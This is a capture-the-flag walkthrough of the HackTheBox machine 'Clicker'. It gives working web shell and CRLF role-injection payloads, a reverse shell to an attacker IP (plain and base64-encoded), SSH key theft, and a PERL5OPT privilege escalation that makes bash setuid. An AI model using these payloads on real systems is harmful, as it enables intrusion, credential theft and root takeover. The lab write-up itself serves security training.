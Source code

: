 ```yaml
---
layout: post
title: "Clicker 2631e18944b846e4ab17528fdc8d13cf"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Clicker

HackTheBox: Medium

<aside>
💡 Visual is a linux  machine which handles with mount files

</aside>

## 1: Enumeration

- nmap scanning: Making port scanning we find
1. 80-http
2. 22-ssh
3. 111-rcbind
4. 2049 nfs-acl 

A server with share mounts

```bash
mkdir -p /mnt/nfs_file_shares
cd mnt 
mount -o nolock 10.10.11.232:/mnt/nfs_files_shares
cd backups
```

## 2: User flag

Copy those files to our workspace

- We found some php files looking around (save.php) theres an admin role, we go to http service and register as a user.
- We register burp suite to check request and responses and sent a request changing the role. using CRLF vulnerability

```bash
&role%0a=Admin
```

- Log out and log in again
- We can export some results and change the extension with burp suite for excecute commands in php
- There’s a vulnerable parameter called nickname

```bash
&nickname=<%3fphp+system($_GET['CMD'])+%3f>)
```

Once inside of php file we use

```bash
<file_name>.php?cmd=cat/etc/passwd
```

A user called jack in the machine

We are ready to be data

```bash
echo "sh -i >& /dev/tcp/<your_ip>/9001 0>&1" | base64
```

```bash
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzkwMDEgMD4mMQo=%22%20|%20base64%20-d%20|%20bash
```

Estabilize using python

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

There is a PKI we can see it executing

```bash
./execute_query 5 ../.ssh/id_rsa
```

This key has a problem with the format, just change the format and use

```bash
chmod 600 id_rsa 
sudo ssh -i id_rsa jack@10.10.11.232
```

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled.png' | relative_url }})

## 3: Priv esc

```bash
sudo -l
```

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_1.png' | relative_url }})

[monitor.sh](http://monitor.sh) execute a xml_pp file lets see what it is

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_2.png' | relative_url }})

This vulnerability is called as “perl_startup” Privilege Escalation.

That enabled me to execute scripts with root privileges, as I had the ability to configure the environment while running Perl.

```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
bash -p
```

Machine pwned!!!!
